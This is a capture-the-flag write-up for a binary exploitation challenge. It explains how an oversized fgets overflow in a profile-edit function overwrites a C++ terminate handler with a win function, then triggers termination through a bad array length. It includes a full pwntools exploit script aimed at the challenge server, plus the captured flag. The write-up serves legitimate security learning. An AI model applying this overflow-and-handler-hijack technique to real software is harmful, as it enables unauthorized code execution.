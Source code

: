 # Overview

**Challenge Name :** CPP Encrypter

**Author :** @Capang

**Description :** I love C so much that I code a CPP program using C syntax

## Analysis

```c
    puts("\n--- Edit Profile ---");
    printf("Enter new username (leave empty to keep current): ");
    fgets(local_418,0x404,stdin);
```

There is an obvious BOF here because the username is originally of size 256 but its taking in 1028 characters when you try to edit your profile.

![image](https://github.com/user-attachments/assets/f3cac91b-b0ee-42c7-ab91-da2e95044fa3)

After going through the things that we can overwrite, this function looked the most interesting. Judging from its name `terminate handler`, we assumed that if we somehow managed to terminate the program without the traditional way, we can overwrite this handler to point to a function that we want. But which function?

![image](https://github.com/user-attachments/assets/ef2b0b65-3d1c-47ee-8868-d44d2f2ee96e)

After doing abit of going through every single function in the program, you will eventually stumble upon this interesting function. Next step is how to terminate the program in a different way? 

![image](https://github.com/user-attachments/assets/1ee643bd-6c97-4e19-a2d6-55ae51a84b10)

In the encrypt message function, if you give too many messages to encrypt, it will trigger bad array length. So the goal is simple

1. Overwrite terminate handler with the address of the useless function
2. Give a large number to encrypt message and terminate the program

## Solve Script

```py
#!/usr/bin/python
from pwn import *

filepath = './encryption_app'
exe = context.binary = ELF(filepath)

host = "116.203.176.73"
port = 59656

r = lambda x: p.recv(x)
rl = lambda: p.recvline(keepends=False)
ru = lambda x: p.recvuntil(x, drop=True)
cl = lambda: p.clean(timeout=1)
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
li = lambda s: log.info(s)
ls = lambda s: log.success(s)

def create(usr=b"a", pas=b"a"):
  sla(b"choice: ", "1")
  sla(b"username: ", usr) 
  sla(b"password: ", pas)

def login(usr=b"a", pas=b"a"):
  sla(b"choice: ", "2")
  sla(b"Username: ", usr) 
  sla(b"Password: ", pas)

def edit(usr=b"a", pas=b"a"):
  sla(b"choice: ", "3")
  sla(b": ", usr)
  # s(usr)
  sla(b": ", pas)

def encrypt(num, method, msg):
  sla(b"choice: ", "5")
  sla(b"hash? ", str(num))
  sla(b": ", msg)
  sla(b": ", str(method))

# p = exe.process()
# p = remote("localhost", 10002)
p = remote(host,port)

win = 0x401976

create()
login()
payload = b"A" * 0x148
payload += p64(win)

edit(payload)

sla(b"choice: ", "5")
sla(b"hash? ", str(10000000000000000))

p.interactive()
```

![image](https://github.com/user-attachments/assets/108a3920-876b-4681-b223-317915787f21)

> UMCS{AW3S0ME_3NCRYPT0R_S0LLV33_73bb3661}
